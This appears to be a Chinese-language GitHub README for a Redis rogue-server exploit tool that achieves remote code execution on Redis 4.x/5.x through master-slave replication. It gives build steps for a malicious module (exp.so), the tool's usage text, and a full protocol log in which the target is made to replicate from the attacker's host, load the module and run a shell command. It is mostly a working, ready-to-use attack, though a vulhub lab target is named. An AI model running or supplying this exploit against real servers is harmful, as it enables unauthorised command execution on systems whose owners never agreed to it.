 # Redis 恶意服务器

重构自 <https://github.com/n0b0dyCN/redis-rogue-server>

为了更适配Kali Linux编译的 Redis(<=5.0.5) 主从复制 RCE.

## 靶机

[vulhub](https://github.com/vulhub/vulhub/blob/master/redis/4-unacc/README.md)

## 要求

Python 3.x

## 用法

编译:

``` bash
cd RedisModulesSDK/
make
```

动态链接库 exp.so 在 `RedisModulesSDK/exp.so`.

以防万一，我添加了个已经编译好的 exp.so 可供使用.

帮助信息:

```
./redis-master.py -h                                                                                 
usage: redis-master.py [-h] -r RHOST [-p RPORT] -L LHOST [-P LPORT] [-f FILE] [-c COMMAND] [-a AUTH]

Redis 4.x/5.x RCE with RedisModules

options:
  -h, --help            show this help message and exit
  -r RHOST, --rhost RHOST
                        target host
  -p RPORT, --rport RPORT
                        target redis port, default 6379
  -L LHOST, --lhost LHOST
                        rogue server ip
  -P LPORT, --lport LPORT
                        rogue server listen port, default 21000
  -f FILE, --file FILE  RedisModules to load, default exp.so
  -c COMMAND, --command COMMAND
                        Command that you want to execute
  -a AUTH, --auth AUTH  redis password
```

执行命令:

```
./redis-master.py -r 192.168.0.189 -p 6379 -L 192.168.0.189 -P 8888 -f RedisModulesSDK/exp.so -c "id"
>> send data: b'*3\r\n$7\r\nSLAVEOF\r\n$13\r\n192.168.0.189\r\n$4\r\n8888\r\n'
>> receive data: b'+OK\r\n'
>> send data: b'*4\r\n$6\r\nCONFIG\r\n$3\r\nSET\r\n$10\r\ndbfilename\r\n$6\r\nexp.so\r\n'
>> receive data: b'+OK\r\n'
>> receive data: b'PING\r\n'
>> receive data: b'REPLCONF listening-port 6379\r\n'
>> receive data: b'REPLCONF capa eof capa psync2\r\n'
>> receive data: b'PSYNC fa03249fe5ea44ee1c53aaa34d9b3a97accc8a14 1\r\n'
>> send data: b'*3\r\n$6\r\nMODULE\r\n$4\r\nLOAD\r\n$8\r\n./exp.so\r\n'
>> receive data: b'+OK\r\n'
>> send data: b'*3\r\n$7\r\nSLAVEOF\r\n$2\r\nNO\r\n$3\r\nONE\r\n'
>> receive data: b'+OK\r\n'
>> send data: b'*4\r\n$6\r\nCONFIG\r\n$3\r\nSET\r\n$10\r\ndbfilename\r\n$8\r\ndump.rdb\r\n'
>> receive data: b'+OK\r\n'
>> send data: b'*2\r\n$11\r\nsystem.exec\r\n$2\r\nid\r\n'
>> receive data: b'$49\r\neuid=999(redis) gid=999(redis) groups=999(redis)\n\r\n'
euid=999(redis) gid=999(redis) groups=999(redis)

>> send data: b'*3\r\n$6\r\nMODULE\r\n$6\r\nUNLOAD\r\n$6\r\nsystem\r\n'
>> receive data: b'+OK\r\n'
```

截屏:

![](test.png)
